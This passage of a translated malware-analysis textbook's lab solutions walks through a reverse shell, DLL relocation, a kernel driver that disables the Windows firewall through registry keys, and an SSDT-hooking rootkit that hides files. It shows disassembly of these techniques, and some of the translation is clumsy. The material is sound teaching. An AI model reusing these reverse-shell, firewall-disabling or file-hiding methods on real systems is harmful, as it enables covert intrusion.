这个参数被移动到一个 sockaddr_in 结构中，并带有 0x2，它在 sockaddr_in 结构中代表 AF_INET（互联网套接字的代码）。

下一个调用将恶意软件连接到*www.practicalmalwareanalysis.com*上的 TCP 端口 9999。如果连接成功，恶意软件将继续执行，直到 0x40137A。如果失败，恶意软件将休眠 30 秒，回到主函数的开始处，并重复此过程。我们可以使用 Netcat 和 ApateDNS 来欺骗恶意软件，使其连接到我们控制的 IP 地址。

如果我们单步执行 0x4013a9（单步执行 0x401000）处的函数调用，我们会看到两次对 0x4013E0 的函数调用。这又是 OllyDbg 没有识别出 memset 系统调用，而 IDA Pro 却识别出该函数的另一个例子。接下来，我们看到在 0x40106E 处对 CreateProcessA 的调用，如列表 9-8L 所示。在调用之前，一些结构正在被填充。我们将转向 IDA Pro 来揭示这里发生了什么。

**实验室解决方案**

**543**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**反向 shell 分析**

这似乎是一个反向 shell，使用的是恶意软件作者中流行的创建方法。在这个方法中，传递给 CreateProcessA 的 STARTUPINFO 结构被操作。调用 CreateProcessA，并以窗口隐藏的方式运行*cmd.exe*，这样在攻击者用户看来是不可见的。在调用 CreateProcessA 之前，创建了一个套接字，并与远程服务器建立了连接。该套接字与*cmd.exe*的标准流（stdin、stdout 和 stderr）相关联。

列表 9-8L 显示了反向 shell 创建方法的实际操作。

0040103B mov [ebp+StartupInfo.wShowWindow], **SW_HIDE** 

00401041 mov edx, [ebp+**Socket**]

00401044 mov [ebp+StartupInfo. **hStdInput**], edx 

00401047 mov eax, [ebp+StartupInfo.hStdInput]

0040104A mov [ebp+StartupInfo. **hStdError**], eax 

0040104D mov ecx, [ebp+StartupInfo.hStdError]

00401050 mov [ebp+StartupInfo. **hStdOutput**], ecx 

00401053 lea edx, [ebp+ProcessInformation]

00401056 push edx ; lpProcessInformation

00401057 lea eax, [ebp+StartupInfo]

0040105A push eax ; lpStartupInfo

0040105B push 0 ; lpCurrentDirectory

0040105D push 0 ; lpEnvironment

0040105F push 0 ; dwCreationFlags

00401061 push 1 ; bInheritHandles

00401063 push 0 ; lpThreadAttributes

00401065 push 0 ; lpProcessAttributes

00401067 push offset CommandLine ; " **cmd**" 

0040106C push 0 ; lpApplicationName

0040106E call ds:**CreateProcessA**

*清单 9-8L：使用 CreateProcessA 和 STARTUPINFO 结构创建反向 shell* STARTUPINFO 结构被操作，然后传递参数给 CreateProcessA。我们看到 CreateProcessA 将运行 *cmd.exe*，因为它在  处作为参数传递。结构中的 wShowWindow 成员被设置为 SW_HIDE 在 ，这将隐藏在启动时 *cmd.exe* 的窗口。在 、 和  处，我们看到 STARTUPINFO 结构中的标准流被设置为套接字。这直接将标准流与 *cmd.exe* 的套接字绑定，因此当它启动时，通过套接字传输的所有数据都将发送到 *cmd.exe*，而 *cmd.exe* 生成的所有输出都将通过套接字发送。

总结来说，我们确定这种恶意软件是一个简单的反向 shell，具有混淆的字符串，必须在运行成功之前将其重命名为 *ocl.exe*。这些字符串使用栈和多字节 XOR 进行混淆。在第十三章中，我们将更详细地介绍这种数据编码技术。

**544**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**Lab 9-3 解答**

***简答***

1.

导入表包含 *kernel32.dll*、*NetAPI32.dll*、*DLL1.dll* 和 *DLL2.dll*。恶意软件动态加载 *user32.dll* 和 *DLL3.dll*。

2.

所有三个 DLL 请求相同的基址：0x10000000。

3.

*DLL1.dll* 被加载在 0x10000000，*DLL2.dll* 被加载在 0x320000，*DLL3.dll* 被加载在 0x380000（在您的机器上可能会有所不同）。

4.

调用 DLL1Print，并打印“DLL 1 神秘数据”，然后是全局变量的内容。

5.

DLL2ReturnJ 返回一个 *temp.txt* 文件名，该文件名传递给 WriteFile 的调用。

**9**

6.

*Lab09-03.exe* 从 DLL3GetStructure 获取对 NetScheduleJobAdd 调用的缓冲区，它动态解析。

7.

神秘数据 1 是当前进程标识符，神秘数据 2 是打开的 *temp.txt* 文件的句柄，神秘数据 3 是字符串 ping www.malwareanalysisbook.com 在内存中的位置。

8.

在 IDA Pro 中加载 DLL 时选择手动加载，然后根据提示输入新的图像基址。在这种情况下，地址是 0x320000。

***详细分析***

我们首先检查 *Lab09-03.exe* 的导入表，它包含 *kernel32.dll*、*NetAPI32.dll*、*DLL1.dll* 和 *DLL2.dll*。接下来，我们将 *Lab09-03.exe* 加载到 IDA Pro 中。我们寻找对 LoadLibrary 的调用，并检查在调用之前推送到栈上的字符串。我们看到两个对 LoadLibrary 的交叉引用，分别推送 *user32.dll* 和 *DLL3.dll*，因此这些 DLL 可能会在运行时动态加载。

我们可以使用 PEview 检查 DLL 请求的基本地址，如图 9-10L 所示。将 DLL1.dll 加载到 PEview 后，点击 IMAGE_OPTIONAL_HEADER 并查看 Image Base 的值，如图中的所示。我们用 DLL2.dll 和 DLL3.dll 重复此过程，并看到它们都请求基本地址 0x10000000。

*图 9-10L：使用 PEview 查找请求的基本地址* 实验室解决方案

**545**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**使用内存映射定位 DLLs**

接下来，我们想找出在运行时三个 DLL 加载到的内存地址。DLL1.dll 和 DLL2.dll 立即加载，因为它们在导入表中。由于 DLL3.dll 是动态加载的，我们需要运行位于 0x401041 的 LoadLibrary 函数。我们可以通过将 Lab09-03.exe 加载到 OllyDbg 中，在 0x401041 处设置断点，并点击播放来实现。一旦断点命中，我们可以跳过对 LoadLibrary 的调用。此时，所有三个 DLL 都已加载到 Lab09-03.exe 中。

我们通过选择**视图****内存**来显示内存映射。内存映射如图 9-11L 所示（在您的机器上可能略有不同）。在处，我们看到 DLL1.dll 获得了其首选基本地址 0x10000000。在处，我们看到 DLL2.dll 没有获得其首选基本地址，因为 DLL1.dll 已经加载在那个位置，所以 DLL2.dll 加载在 0x320000。最后，在处，我们看到 DLL3.dll 加载在 0x380000。

*图 9-11L：使用 OllyDbg 内存映射*

*检查 DLL 加载位置*

列表 9-9L 显示了从 Lab09-03.exe 调用 DLL1.dll 和 DLL2.dll 的导出函数。

00401006 调用 ds:**DLL1Print**

0040100C 调用 ds:**DLL2Print**

00401012 调用 ds:**DLL2ReturnJ**

00401018 mov [ebp+hObject], eax 

0040101B push 0 ; lpOverlapped 0040101D lea eax, [ebp+NumberOfBytesWritten]

00401020 push eax ; lpNumberOfBytesWritten 00401021 push 17h ; nNumberOfBytesToWrite 00401023 push offset aMalwareanalysi ; "malwareanalysisbook.com"

00401028 mov ecx, [ebp+hObject]

0040102B push ecx 

; hFile

0040102C 调用 ds:**WriteFile**

*列表 9-9L：从 Lab09-03.exe 调用 DLL1.dll 和 DLL2.dll 的导出函数* 在列表 9-9L 的开始处，我们看到对 DLL1Print 的调用，它是 DLL1.dll 的导出函数。我们使用 IDA Pro 反汇编 DLL1.dll，看到该函数打印“DLL 1 神秘数据”，然后是全局变量 dword_10008030 的内容。如果我们检查 dword_10008030 的交叉引用，我们看到它在 DllMain 调用时被访问，返回值**546**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

GetCurrentProcessId 被移动到其中。因此，我们可以得出结论，DLL1Print 打印当前进程 ID，这是它在 DLL 首次加载到进程时确定的。

在列表 9-9L 中，我们看到对 *DLL2.dll* 的两个导出函数的调用：DLL2Print 和 DLL2ReturnJ。我们可以使用 IDA Pro 反汇编 *DLL2.dll* 并检查 DLL2Print，以看到它打印“DLL 2 mystery data”，然后是全局变量 dword_1000B078 的内容。如果我们检查 dword_1000B078 的交叉引用，我们会看到它在 DllMain 中被访问，当 CreateFileA 的句柄移动到其中时。CreateFileA 函数打开一个文件句柄到 *temp.txt*，如果它不存在，则创建该文件。DLL2Print 似乎打印了 *temp.txt* 的句柄值。我们可以查看 DLL2ReturnJ 导出函数，发现它返回与 DLL2Print 打印的相同的句柄。在列表 9-9L 的进一步内容中，在  处，句柄被移动到 hObject，它被传递给 WriteFile 在  定义了 malwareanalysisbook.com 的写入位置。

在 *Lab09-03.exe* 中的 WriteFile 操作之后，通过调用 **9** 加载了 *DLL3.dll*

LoadLibrary，然后使用 GetProcAddress 动态解析 DLL3Print 和 DLL3GetStructure。首先，它调用 DLL3Print，打印“DLL 3 mystery data”，然后是位于 0x1000B0C0 的全局变量的内容。

当我们检查全局变量的交叉引用时，我们看到它在 DllMain 中初始化为字符串 ping www.malwareanalysisbook.com，因此该字符串的内存位置将被再次打印。DLL3GetStructure 似乎返回指向全局 dword_1000B0A0 的指针，但该位置中的数据不清楚。DllMain 似乎使用数据和字符串在这个位置初始化某种结构。由于 DLL3GetStructure 设置了这个结构的指针，我们需要查看 *Lab09-03.exe* 如何使用数据来确定结构的详细内容。列表 9-10L 显示了 DLL3GetStructure 的调用位置 。

00401071 将 [ebp+Buffer] 的值加载到 edx

00401074 将 edx 压入栈

00401075 调用 [ebp+var_10] 

; **DLL3GetStructure**

00401078 添加 esp, 4

0040107B 将 [ebp+JobId] 的值加载到 eax

0040107E 将 eax 压入栈；JobId 0040107F 将 [ebp+**Buffer**] 的值移动到 ecx

00401082 将 ecx 压入栈；Buffer 00401083 将 0 压入栈；Servername 00401085 调用 **NetScheduleJobAdd**

*列表 9-10L：在 *Lab09-03.exe* 中 DLL3GetStructure 调用后跟随 NetScheduleJobAdd 调用。看起来该调用的结果是 Buffer 指向的结构，随后传递给 NetScheduleJobAdd。查看 NetScheduleJobAdd 的 MSDN 页面告诉我们 Buffer 是指向 AT_INFO 结构的指针。

**在 IDA Pro 中应用结构**

AT_INFO 结构可以应用于 *DLL3.dll* 中的数据。首先，将 *DLL3.dll* 加载到 IDA Pro 中，在结构窗口中按 INSERT 键，并添加标准结构 AT_INFO。然后，转到内存中的 dword_1000B0A0 并查看解决方案

**547**

[www.it-ebooks.info](http://www.it-ebooks.info/)

选择 **编辑****结构变量**并点击 **AT_INFO**。这将使数据更易于阅读，如列表 9-11L 所示。我们可以看到，计划任务将被设置为每天凌晨 1:00 AM ping *malwareanalysisbook.com*。

10001022 mov stru_1000B0A0.Command, offset WideCharStr ; "ping www..."

1000102C mov stru_1000B0A0.JobTime, 36EE80h

10001036 mov stru_1000B0A0.DaysOfMonth, 0

10001040 mov stru_1000B0A0.DaysOfWeek, 7Fh

10001047 mov stru_1000B0A0.Flags, 11h

*列表 9-11L：AT_INFO 结构*

**使用 IDA Pro 指定新图像基址**

我们可以通过在加载 DLL 时勾选 **手动加载** 复选框，将 *DLL2.dll* 加载到 IDA Pro 的不同位置。在显示 **请指定** **新图像基址** 的字段中，我们输入 **320000**。IDA Pro 将完成其余工作以调整所有偏移量，就像 OllyDbg 加载 DLL 时所做的那样。

**恶意软件摘要**

本实验演示了如何使用 OllyDbg 确定三个 DLL 被加载到 *Lab09-03.exe* 的位置。我们将这些 DLL 加载到 IDA Pro 中进行完整分析，然后找出恶意软件打印的神秘数据：神秘数据 1 是当前进程标识符，神秘数据 2 是打开的 *temp.txt* 的句柄，神秘数据 3 是字符串 ping www.malwareanalysisbook.com 在内存中的位置。最后，我们应用了 IDA Pro 中的 Windows AT_INFO 结构来帮助我们分析 *DLL3.dll*。

**Lab 10-1 解决方案**

***简答题***

1.

如果您使用 procmon 监控此程序，您将看到唯一的写入注册表的调用是 RegSetValue 对 HKLM\SOFTWARE\ Microsoft\Cryptography\RNG\Seed 的值。通过 CreateServiceA 的调用进行了一些间接更改，但此程序还从内核直接更改注册表，这些更改不会被 procmon 检测到。

2.

要设置断点以查看内核中的操作，您必须在虚拟机中运行的 WinDbg 实例中打开可执行文件，同时使用主机机器上的另一个 WinDbg 实例调试内核。当 *Lab10-01.exe* 在虚拟机中停止时，您首先使用 !drvobj 命令获取驱动程序对象的句柄，该句柄包含指向卸载函数的指针。接下来，您可以在驱动程序中的卸载函数上设置断点。当您重新启动 *Lab10-01.exe* 时，断点将被触发。

3.

此程序创建一个服务来加载驱动程序。然后驱动程序代码创建（如果存在则修改）注册表键 \Registry\Machine\ SOFTWARE\Policies\Microsoft\WindowsFirewall\StandardProfile 和 **548**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

\Registry\Machine\SOFTWARE\Policies\Microsoft\WindowsFirewall\DomainProfile.

设置这些注册表键将禁用 Windows XP 防火墙。

***详细分析***

我们从一些基本的静态分析开始。检查可执行文件，我们看到除了每个可执行文件都包含的标准导入之外，几乎没有其他导入。感兴趣的导入是 OpenSCManagerA、OpenServiceA、ControlService、StartServiceA 和 CreateServiceA。这表明程序创建了一个服务，并且可能启动并操作该服务。似乎与系统的交互很少。

输出的字符串揭示了一些有趣的信息。第一个是 C:\Windows\System32\Lab10-01.sys，这表明 *Lab10-01.sys* 可能包含服务的代码。

检查驱动文件，我们看到它只导入了三个函数。

第一个函数是 KeTickCount，它几乎包含在每个驱动程序中，可以忽略。剩下的两个函数，RtlCreateRegistryKey 和 RtlWriteRegistryValue，告诉我们驱动程序可能访问注册表。

**10**

驱动文件还包含许多有趣的字符串，如下所示：EnableFirewall

\Registry\Machine\SOFTWARE\Policies\Microsoft\WindowsFirewall\StandardProfile

\Registry\Machine\SOFTWARE\Policies\Microsoft\WindowsFirewall\DomainProfile

\Registry\Machine\SOFTWARE\Policies\Microsoft\WindowsFirewall

\Registry\Machine\SOFTWARE\Policies\Microsoft

这些字符串看起来非常像注册表键，但它们以

\Registry\Machine, 而不是通常的注册表根键之一，例如 HKLM。

当从内核访问注册表时，前缀 \Registry\Machine 等同于从用户空间程序访问 HKEY_LOCAL_MACHINE。网络搜索显示将 EnableFirewall 值设置为 0 将禁用内置的 Windows XP 防火墙。

由于这些字符串表明恶意软件会写入注册表，我们打开 procmon 来测试我们的假设。这显示了对读取注册表的几个函数调用，但只有一个调用写入注册表：在 HKLM\SOFTWARE\Microsoft\Cryptography\RNG\Seed 上的 RegSetValue。这个注册表值经常更改，对恶意软件分析没有意义，但由于涉及内核代码，我们需要确保驱动程序没有秘密修改注册表。

接下来，我们打开可执行文件，导航到第 10-1L 列表中显示的主函数，我们看到它只进行了四个函数调用。

00401004 push 0F003Fh ; dwDesiredAccess

00401009 push 0 ; lpDatabaseName

0040100B push 0 ; lpMachineName

0040100D call ds:OpenSCManagerA ; 建立与服务的连接 0040100D

; 在指定计算机上的控制管理器

0040100D

; 并打开指定的数据库

00401013 mov edi, eax

实验室解决方案

**549**

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401015 测试 edi, edi

00401017 jnz short loc_401020

00401019 pop edi

0040101A add esp, 1Ch

0040101D 返回 10h

00401020 loc_401020:

00401020 push esi

00401021 push 0 ; lpPassword

00401023 push 0 ; lpServiceStartName

00401025 push 0 ; lpDependencies

00401027 push 0 ; lpdwTagId

00401029 push 0 ; lpLoadOrderGroup

0040102B push offset BinaryPathName ; "C:\\Windows\\System32\\Lab10-01.sys"

00401030 push 1 ; dwErrorControl

00401032 push 3 ; dwStartType

00401034 push 1 ; dwServiceType

00401036 push 0F01FFh ; dwDesiredAccess

0040103B push offset ServiceName ; "Lab10-01"

00401040 push offset ServiceName ; "Lab10-01"

00401045 push edi ; hSCManager

00401046 call ds:CreateServiceA

*列表 10-1L：Lab10-01.exe 的 main 方法*

首先，它调用 OpenSCManagerA at  来获取服务管理器的句柄，然后调用 CreateServiceA at  来创建名为 Lab10-01 的服务。CreateServiceA 调用告诉我们，服务将使用位于 *C:\Windows\System32\* 的 *Lab10-01.sys* 中的代码 ，并且服务类型是  中的 3，或 SERVICE_KERNEL_DRIVER，这意味着此文件将被加载到内核中。

如果 CreateServiceA 调用失败，代码将使用相同的服务名称调用 OpenServiceA，如列表 10-2L 所示。如果 CreateServiceA 调用失败是因为服务已经存在，这将打开 Lab10-01 服务的句柄。

00401052 push 0F01FFh

; dwDesiredAccess

00401057 push offset ServiceName ; "Lab10-01"

0040105C push edi

; hSCManager

0040105D call ds:OpenServiceA

*列表 10-2L：调用 OpenServiceA 获取 Lab10-01 服务的句柄*

接下来，程序调用 StartServiceA 来启动服务，如列表 10-3L 所示。最后，它调用 ControlService at 。ControlService 的第二个参数是要发送的控制消息类型。在这种情况下，值是  中的 0x01，我们在文档中查找发现它表示 SERVICE_CONTROL_STOP。这将卸载驱动程序并调用驱动程序的卸载函数。

00401069 push 0 ; lpServiceArgVectors 0040106B push 0 ; dwNumServiceArgs

0040106D push esi ; hService

0040106E call ds:StartServiceA

**550**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401074 test esi, esi

00401076 jz short loc_401086

00401078 lea eax, [esp+24h+ServiceStatus]

0040107C push eax ; lpServiceStatus

0040107D push 1 ; dwControl

0040107F push esi ; hService

00401080 call ds:ControlService ; 向 Win32 服务发送控制代码 *列表 10-3L：从 Lab10-01.exe 调用 ControlService*

在我们尝试使用 WinDbg 分析驱动程序之前，我们可以打开 IDA Pro 中的驱动程序来检查 DriverEntry 函数。当我们第一次打开驱动程序并导航到入口点时，我们看到列表 10-4L 中的代码。

00010959 mov edi, edi

0001095B push ebp

0001095C mov ebp, esp

0001095E call sub_10920

**10**

00010963 pop ebp

00010964 jmp sub_10906

*列表 10-4L：Lab10-01.sys 的入口点代码* 这个函数是驱动程序的入口点，但不是 DriverEntry 函数。编译器在 DriverEntry 周围插入包装代码。真正的 DriverEntry 函数位于 sub_10906 。

如列表 10-5L 所示，DriverEntry 函数的主体似乎将一个偏移值移动到内存位置，但除此之外没有进行任何函数调用或与系统交互。

00010906 mov edi, edi

00010908 push ebp

00010909 mov ebp, esp

0001090B mov eax, [ebp+arg_0]

0001090E mov dword ptr [eax+34h], offset loc_10486

00010915 xor eax, eax

00010917 pop ebp

00010918 retn 8

*列表 10-5L：Lab10-01.sys 的 DriverEntry 例程分析* 在 WinDbg 中分析 Lab10-01.sys

现在，我们可以使用 WinDbg 检查 Lab10-01.sys，看看在调用 ControlService 卸载 Lab10-01.sys 时会发生什么。用户空间可执行文件中的代码加载 *Lab10-10.sys* 然后立即卸载它。如果我们运行恶意可执行文件之前使用内核调试器，驱动程序尚未在内存中，因此我们无法检查它。但如果我们等待恶意可执行文件执行完毕后，驱动程序已经从内存中卸载。

实验解决方案

**551**

[www.it-ebooks.info](http://www.it-ebooks.info/)

为了在内存中加载 Lab10-01.sys 时使用 WinDbg 进行分析，我们将在虚拟机中加载可执行文件到 WinDbg 中。我们在驱动程序加载和卸载之间设置断点，在 ControlService 调用处，使用以下命令：

0:000> bp 00401080

然后我们启动程序并等待直到断点被触发。当断点被触发时，WinDbg 会显示以下信息：断点 0 被触发

eax=0012ff1c ebx=7ffdc000 ecx=77defb6d edx=00000000 esi=00144048 edi=00144f58

eip=00401080 esp=0012ff08 ebp=0012ffc0 iopl=0 nv up ei pl nz na pe nc cs=001b ss=0023 ds=0023 es=0023 fs=003b gs=0000 efl=00000206

image00400000+0x1080:

一旦程序在断点处停止，我们就退出虚拟机以连接内核调试器并获取有关 Lab10-01.sys 的信息。我们打开 WinDbg 的另一个实例并选择 **文件**

**通过管道设置到 *\\.\pipe\com_1* 并以 115200 波特率连接主机机器上运行的 WinDbg 实例到虚拟机的内核**。我们知道我们的服务名为 Lab10-01，因此我们可以使用 !drvobj 命令获取驱动程序对象，如列表 10-6L 所示。

kd> !drvobj lab10-01

驱动对象  (8263b418) 用于：

加载 f7c47000 Lab10-01.sys -> Lab10-01.sys 的符号

*** 错误：模块加载完成，但无法加载 Lab10-01.sys 的符号

\Driver\Lab10-01

驱动扩展列表： (id , addr)

设备对象列表： 

*列表 10-6L：定位 Lab10-01 的设备对象*

!drvobj 命令的输出给我们提供了驱动对象的地址。由于设备对象列表中没有列出任何设备，我们知道该驱动程序没有用户空间应用程序可以访问的任何设备。

**注意**

*为了解决定位服务名称的任何困难，您可以使用 !object \Driver 命令获取当前内核中驱动对象的列表。*

一旦我们有了驱动对象的地址，我们可以使用 dt 命令查看它，如列表 10-7L 所示。

kd> **dt _DRIVER_OBJECT 8263b418**

nt!_DRIVER_OBJECT

+0x000 类型 : 4

+0x002 大小 : 168

**552**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

+0x004 设备对象 : (null)

+0x008 标志 : 0x12

+0x00c 驱动启动 : 0xf7c47000

+0x010 驱动大小 : 0xe80

+0x014 驱动部分 : 0x826b2c88

+0x018 驱动扩展 : 0x8263b4c0 _DRIVER_EXTENSION

+0x01c 驱动名称 : _UNICODE_STRING "\Driver\Lab10-01"

+0x024 硬件数据库 : 0x80670ae0 _UNICODE_STRING "\REGISTRY\MACHINE\ HARDWARE\DESCRIPTION\SYSTEM"

+0x028 快速 I/O 调度 : (null)

+0x02c 驱动初始化 : 0xf7c47959 long +0

+0x030 驱动启动 Io : (null)

+0x034 DriverUnload : 0xf7c47486 void +0

+0x038 主要功能 : [28] 0x804f354a long nt!IopInvalidDeviceRequest+0

*列表 10-7L：在 WinDbg 中查看 Lab10-01.sys 的驱动对象* 我们试图识别驱动卸载时调用的函数——

偏移量 0x034 处的信息，DriverUnload，如所示。然后我们使用以下命令设置断点：

**10**

kd> **bp 0xf7c47486**

设置断点后，我们恢复内核的运行。然后我们回到在虚拟机上运行的 WinDbg 的可执行文件版本，并继续运行。立即，整个虚拟机操作系统冻结，因为内核调试器触发了我们的内核断点。此时，我们可以进入内核调试器来逐步执行代码。我们看到程序三次调用 RtlCreateRegistryKey 函数来创建几个注册表键，然后两次调用 RtlWriteRegistryValue 函数将 EnableFirewall 值设置为 0，在两个地方。这样，以难以被安全程序检测的方式禁用了 Windows XP 防火墙。

如果 0xf7c47486 处的卸载函数很长或很复杂，在 WinDbg 中分析它将很困难。在许多情况下，一旦确定了函数的位置，在 IDA Pro 中分析函数就更容易了，因为 IDA Pro 在分析函数方面做得更好。然而，WinDbg 中的函数位置与 IDA Pro 中的函数位置不同，因此我们必须进行一些手动计算才能在 IDA Pro 中查看函数。我们必须使用 lm 命令计算函数从文件开始处的偏移量，如下所示：

kd> **lm**

start

end 模块名称

...

f7c47000 f7c47e80 Lab10_01 (无符号)

...

正如您所看到的，文件在处的 0xf7c47000 处加载，并且从较早的版本中我们知道卸载函数位于 0xf7c47486。我们从 0xf7c47000 减去它。

实验解决方案

**553**

[www.it-ebooks.info](http://www.it-ebooks.info/)

从 0xf7c47486 获取偏移量（0x486），然后我们使用这个偏移量在 IDA Pro 中导航到卸载函数。例如，如果 IDA Pro 中的基本加载地址是 0x00100000，那么我们导航到地址 0x00100486 以在 IDA Pro 中找到卸载函数。然后我们可以使用静态分析和 IDA Pro 来确认我们在 WinDbg 中发现的。

或者，我们可以通过在 IDA Pro 中选择编辑段重定位程序并更改基本地址值从 0x00100000 到 0xf7c47000 来更改基本地址。

**注意**

*如果您尝试使用延迟断点（bu $iment(Lab10-01)），您可能会遇到麻烦，因为当 WinDbg 在文件名中遇到短横线时，它会将其更改为下划线。在这个实验中，正确的命令是 bu $iment(Lab10_01)。这种行为没有在任何地方记录，并且*可能在不同版本的 WinDbg 中不一致。*

**实验 10-2 解决方案**

***简短回答***

1.

程序创建了文件*C:\Windows\System32\Mlwx486.sys*。您可以使用 procmon 或其他动态监控工具查看创建的文件，但您无法在磁盘上看到该文件，因为它被隐藏了。

2.

程序有一个内核组件。它存储在文件的资源部分，然后写入磁盘并作为服务加载到内核中。

3.

该程序是一个旨在隐藏文件的 rootkit。它使用 SSDT 钩子覆盖 NtQueryDirectoryFile 的入口，它使用该钩子来防止在目录列表中显示以*Mlwx*（区分大小写）开头的任何文件。

***详细分析***

查看此可执行文件的导入部分，我们看到对 CloseServiceHandle、CreateServiceA、OpenSCManagerA 和 StartServiceA 的导入，这告诉我们该程序将创建并启动一个服务。因为程序还调用了 CreateFile 和 WriteFile，我们知道它将在某个时候写入文件。我们还看到对 LoadResource 和 SizeOfResource 的调用，这告诉我们该程序将对*Lab10-02.exe*的资源部分做些事情。

认识到程序访问资源部分后，我们使用 Resource Hacker 来检查资源部分。在那里，我们看到文件在资源部分中包含另一个 PE 头，如图 10-1L 所示。这可能是另一个恶意代码文件，*Lab10-02.exe*将使用。

接下来，我们运行程序，发现它创建了一个文件和一个服务。

使用 procmon，我们看到程序在*C:\Windows\System32*中创建了一个文件，并且创建了一个使用该文件作为可执行文件的服务。该文件包含将被操作系统加载的内核代码。

我们接下来应该找到程序创建的文件，以便分析它并确定内核代码正在做什么。然而，当我们查看**554**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)



*C:\Windows\System32*，我们发现那里什么都没有。我们可以在 procmon 中看到文件被创建，但没有删除文件的调用。

基于文件未出现但我们看不到它是如何被删除的，以及涉及驱动程序的事实，我们应该怀疑我们正在处理一个 rootkit。

**10**

*图 10-1L：存储在 Lab10-02.exe 资源部分的可执行文件* 寻找 rootkit

为了继续调查，我们想检查我们的内核驱动程序是否已加载。为此，我们使用 sc 命令检查运行内核驱动程序的服务状态，如列表 10-8L 所示。

C:\> **sc query "486 WS Driver"** 

SERVICE_NAME: 486 WS Driver

TYPE :

1 KERNEL_DRIVER

STATE : 4 RUNNING

(STOPPABLE,NOT_PAUSABLE,IGNORES_SHUTDOWN)

WIN32_EXIT_CODE : 0 (0x0)

SERVICE_EXIT_CODE : 0 (0x0)

CHECKPOINT : 0x0

WAIT_HINT : 0x0

*列表 10-8L：使用 sc 命令获取关于服务的信息* 我们查询了在 CreateServiceA 调用中指定的服务名称 486 WS Driver，我们看到处服务仍在运行，这告诉我们内核代码在内存中。因为驱动程序仍在运行，但不在磁盘上，所以有些事情不对劲。现在，为了确定发生了什么，我们将内核调试器连接到我们的虚拟机，并使用 lm 命令检查驱动程序是否实际加载。我们看到一个与*Lab10-02.exe*创建的文件名匹配的条目：f7c4d000 f7c4dd80 Mlwx486 (deferred)

实验室解决方案

**555**

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们现在可以确定驱动程序已以*Mlwx486.sys*的文件名加载到内存中，但文件没有出现在磁盘上，这表明这可能是 rootkit。

接下来，我们检查 SSDT 中是否有任何被修改的条目，如列表 10-9L 所示。

kd> dd dwo(KeServiceDescriptorTable) L100

...

80501dbc 8060cb50 8060cb50 8053c02e 80606e68

80501dcc 80607ac8 **f7c4d486** 805b3de0 8056f3ca

80501ddc 806053a4 8056c222 8060c2dc 8056fc46

...

*列表 10-9L：SSDT 的一个摘录，其中有一个条目被 rootkit 修改* 我们看到处的条目位于 ntoskrnl 模块边界之外的内存位置，但位于已加载的*Mlwx486.sys*驱动程序内。

为了确定哪个正常函数被替换，我们将虚拟机恢复到 rootkit 安装之前的状态，以查看哪个函数存储在覆盖了 SSDT 偏移处的函数中。在这种情况下，该函数是 NtQueryDirectoryFile，这是一个多功能函数，用于检索 FindFirstFile 和 FindNextFile 用于遍历目录结构的文件和目录信息。此函数还由 Windows 资源管理器用于显示文件和目录。如果 rootkit 正在钩此函数，它可能会隐藏文件，这可以解释为什么我们找不到*Mlwx486.sys*。现在我们已经找到了一个正在钩 SSDT 的函数，我们必须分析该函数正在做什么。

**检查钩子函数**

我们现在更仔细地查看调用 NtQueryDirectoryFile 而不是该函数的函数，我们将它称为 PatchFunction。恶意的 PatchFunction 必须与原始函数具有相同的接口，因此我们首先检查原始函数的文档。我们发现根据微软的说法，NtQueryDirectoryFile 在技术上是未记录的，但快速的网络搜索将提供我们所需的所有信息。NtQueryDirectoryFile 函数是一个非常灵活的函数，具有许多不同的参数，这些参数决定了将返回什么。

现在，我们想查看恶意函数对请求做了什么。我们在 PatchFunction 上设置了一个断点，并发现它首先调用原始的 NtQueryDirectoryFile，使用所有原始参数，如列表 10-10L 所示。

f7c4d490 ff7530 push dword ptr [ebp+30h]

f7c4d493 ff752c push dword ptr [ebp+2Ch]

f7c4d496 ff7528 push dword ptr [ebp+28h]

f7c4d499 ff7524 push dword ptr [ebp+24h]

f7c4d49c ff7520 push dword ptr [ebp+20h]

f7c4d49f 56 push esi

f7c4d4a0 ff7518 push dword ptr [ebp+18h]

f7c4d4a3 ff7514 push dword ptr [ebp+14h]

**556**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

f7c4d4a6 ff7510 push dword ptr [ebp+10h]

f7c4d4a9 ff750c push dword ptr [ebp+0Ch]

f7c4d4ac ff7508 push dword ptr [ebp+8]

f7c4d4af e860000000 call Mlwx486+0x514 (f7c4d514) *列表 10-10L：PatchFunction 的汇编列表*

**注意**

*从列表 10-10L 中可能并不完全清楚被调用的函数是* *NtQueryDirectoryFile。然而，如果我们单步执行调用函数，我们会看到它* *跳转到文件的另一个部分，该部分跳转到 NtQueryDirectoryFile。在 IDA Pro 中，这个* *调用将被标记为 NtQueryDirectoryFile，但 WinDbg 中包含的反汇编器要简单得多。理想情况下，我们希望在调试时在 IDA Pro 中查看文件，但我们找不到这个文件，因为它被隐藏了。*

补丁函数检查第八个参数，FileInformationClass，如果它不是 3 的任何值，则返回 NtQueryDirectoryFile 的原始返回值。它还检查 NtQueryDirectoryFile 的返回值和第九个参数，ReturnSingleEntry 的值。补丁函数正在寻找某些参数。如果参数不符合标准，则该功能**10**

与原始的 NtQueryDirectoryFile 完全相同。如果参数符合标准，补丁函数将更改返回值，这是我们感兴趣的。为了检查具有正确参数的补丁函数调用期间发生的情况，我们在补丁函数上设置断点。

如果我们在补丁函数上设置断点，它将在每次函数调用时中断，但我们只对某些函数调用感兴趣。这是使用条件断点的完美时机，以便只有当补丁函数的参数符合我们的标准时，断点才会触发。我们在补丁函数上设置断点，但只有当 ReturnSingleEntry 的值为 0 时，断点才会触发，如下所示：

